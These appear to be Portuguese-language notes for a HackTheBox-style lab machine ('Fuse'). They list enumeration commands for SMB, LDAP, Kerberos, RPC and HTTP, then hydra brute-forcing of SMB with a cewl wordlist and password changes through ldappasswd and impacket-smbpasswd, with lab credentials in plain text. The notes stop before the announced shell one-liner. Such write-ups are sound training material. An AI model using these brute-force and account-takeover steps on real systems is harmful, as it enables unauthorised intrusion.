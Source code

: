 Fuse
========================
# Enumeration

    sudo nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269 -Pn -n --script vuln 10.10.10.193 | tee nmap_vulns.txt

![qownnotes-media-SmPvaC](../../../media/qownnotes-media-SmPvaC.png)

TCP Servicos
DNS - OK
Kerberos (AD) 88/646 - OK
RPC 135/593 - OK
SMB - OK
LDAP (AD) 389,636(ssl),3268,3269(ssl) - OK
HTTP - A unica coisa que restou aqui e eu nao levei em conta (somente quando olhei o write-up)

    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn 10.10.10.193

UDP somente DNS

![qownnotes-media-VcQogl](../../../media/qownnotes-media-VcQogl.png)


    sudo nmap -p- -Pn -T5 -n 10.10.10.193
 
 ![qownnotes-media-rimMPG](../../../media/qownnotes-media-rimMPG.png)

    
    sudo nmap_enum 10.10.10.193 | tee nmap_output.txt

## Servicos

[DNS](Fuse.md#DNS) 
[HTTP](Fuse.md#HTTP) 
[Kerberos](Fuse.md#Kerberos) 
[SMB](Fuse.md#SMB) 
[RPC](Fuse.md#RPC) 
[LDAP](Fuse.md#LDAP)

    smbclient -L //10.10.10.193
 
 ![qownnotes-media-vPXIOn](../../../media/qownnotes-media-vPXIOn.png)

ANONYMOUS ACCESS

    enum4linux -a 10.10.10.193
    
![qownnotes-media-DdQzrh](../../../media/qownnotes-media-DdQzrh.png)

Nome do dominio

FABRICORP.LOCAL

    

![qownnotes-media-ffjIXn](../../../media/qownnotes-media-ffjIXn.png)

## DNS

    host -t axfr 10.10.10.193 10.10.10.193
    
![qownnotes-media-VNypIv](../../../media/qownnotes-media-VNypIv.png)


    dnsenum --dnsserver 10.10.10.193 fabricorp.local

![qownnotes-media-MGOBIs](../../../media/qownnotes-media-MGOBIs.png)


## HTTP

    gobuster dir -u http://10.10.10.193 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -k -t 16 -o "tcp_port_protocol_gobuster.txt"

![qownnotes-media-xnxPNd](../../../media/qownnotes-media-xnxPNd.png)

![qownnotes-media-QCKAqa](../../../media/qownnotes-media-QCKAqa.png)

    searchsploit papercut

![qownnotes-media-aGWLkM](../../../media/qownnotes-media-aGWLkM.png)

Esses dois exploits encontrados nao sao pertinentes a essa aplicacao, mas sim da manager. Proximo servico.

    nikto -T x 6 http://10.10.10.193
    
    dirb http://fuse.htb

![qownnotes-media-iSiyrL](../../../media/qownnotes-media-iSiyrL.png)


## SMB

![qownnotes-media-PLpypK](../../../media/qownnotes-media-PLpypK.png)

![qownnotes-media-BVWcBB](../../../media/qownnotes-media-BVWcBB.png)

## Kerberos

    sudo nmap -Pn -sV -p 88 --script="banner,krb5-enum-users" -oN "tcp_port_kerberos_nmap.txt" 10.10.10.193
![qownnotes-media-BFzJrA](../../../media/qownnotes-media-BFzJrA.png)

    
    impacket-GetNPUsers -request -usersfile usernames.txt -dc-ip 10.10.10.193 fabricorp.local/
![qownnotes-media-unbDPe](../../../media/qownnotes-media-unbDPe.png)

    kerbrute userenum --dc 10.10.10.193 -d fabricorp.local usernames.txt

![qownnotes-media-nJlhnh](../../../media/qownnotes-media-nJlhnh.png)


## LDAP

    nmap -Pn -sV -p 389,636,3268,3269 --script="banner,(ldap* or ssl*) and not (brute or broadcast or dos or external or fuzzer)" -oN "tcp_port_ldap_nmap.txt" 10.10.10.193

    ldapsearch -H ldap:// 10.10.10.193 -x -s base namingcontexts
    
    ldapsearch -H ldap://10.10.10.193 -x -b "DC=fabricorp,DC=local"
    
![qownnotes-media-HxaxIr](../../../media/qownnotes-media-HxaxIr.png)


## RPC

    nmap -Pn -sV -p 135 --script=banner,msrpc-enum,rpc-grind,rpcinfo -oN tcp_port_rpc_nmap.txt 10.10.10.193

![qownnotes-media-DQxmyn](../../../media/qownnotes-media-DQxmyn.png)

    rpcclient -U '' -N 10.10.10.193
    srvinfo
    enumdomusers
    getdompwinfo
    querydominfo
    netshareenum
    netshareenumall

![qownnotes-media-FoudSj](../../../media/qownnotes-media-FoudSj.png)

# Exploitation

Depois de fazer toda essa enumeracao, acabei nao achando o entry point, no entanto deixei de fazer a unica coisa que estava faltando de acordo com a metodologia OSCP. Fazer um dicionario de palavras com cewl na web:

    cewl http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers > wordlist.txt
    
    hydra -L usernames.txt -P wordlist.txt smb://10.10.10.193
    #ou
    hydra -L usernames.txt -P wordlist.txt 10.10.10.193 smb
    
![qownnotes-media-cbCxfu](../../../media/qownnotes-media-cbCxfu.png)

Teste@123

Algumas tentativas para trocar a senha do usuario:

    ldapsearch -x -H ldap://10.10.10.193 -D "tlavel@fabricorp.local" -W -b "dc=streamio,dc=htb" "(objectclass=group)"
![qownnotes-media-PtlfVz](../../../media/qownnotes-media-PtlfVz.png)

    ldappasswd -H ldap://10.10.10.193 -x -W -S "uid=tlavel,ou=people,dc=fabricorp,dc=local"
![qownnotes-media-nddyOR](../../../media/qownnotes-media-nddyOR.png)

    ldappasswd -H ldaps://10.10.10.193:636 -D "uid=tlavel,ou=serviceaccounts,dc=fabricorp,dc=local" -S -W -ZZ
    
    ldappasswd -H ldaps://10.10.10.193:3269 -D "uid=tlavel,ou=serviceaccounts,dc=fabricorp,dc=local" -S -W -ZZ
    
    ldappasswd -H ldap://10.10.10.193:3268 -D "uid=tlavel,ou=serviceaccounts,dc=fabricorp,dc=local" -S -W -ZZ
    
    ldappasswd -H ldap://10.10.10.193:636 -D "uid=tlavel,ou=serviceaccounts,dc=fabricorp,dc=local" -S -W -ZZ
    
    ldappasswd -H ldaps://10.10.10.193:636 -D "uid=tlavel,ou=serviceaccounts,dc=fabricorp,dc=local" -S -W -ZZ
    
    ldappasswd -H ldaps://10.10.10.193:636 -D "uid=tlavel,ou=serviceaccounts,dc=fabricorp,dc=local" -S -W -Z
    
![qownnotes-media-KnJhBU](../../../media/qownnotes-media-KnJhBU.png)
    
    ldappasswd -H ldap://10.10.10.193:636 -D "uid=tlavel,ou=serviceaccounts,dc=fabricorp,dc=local" -S -W -Z
![qownnotes-media-YaXgRG](../../../media/qownnotes-media-YaXgRG.png)

Com base em <https://www.digitalocean.com/community/tutorials/how-to-change-account-passwords-on-an-openldap-server>

    ldappasswd -H ldap://10.10.10.193 -x -D "tlavel" -W -A -S
    
Analisando outras ferramentas:

    impacket-smbpasswd -newpass 'R3dT3@m1020' fabricorp.local/tlavel:Fabricorp01@10.10.10.193
    
![qownnotes-media-smKuyZ](../../../media/qownnotes-media-smKuyZ.png)

Esse metodo ate funcionou, mas teporariamente e estou tentando entender o porque disso. 
Foi feito um one-liner para executar comandos e alterar a senha do usuario de tempos em tempos que dessa forma erea possivel fazer uma enumeracao para obter uma shell:




    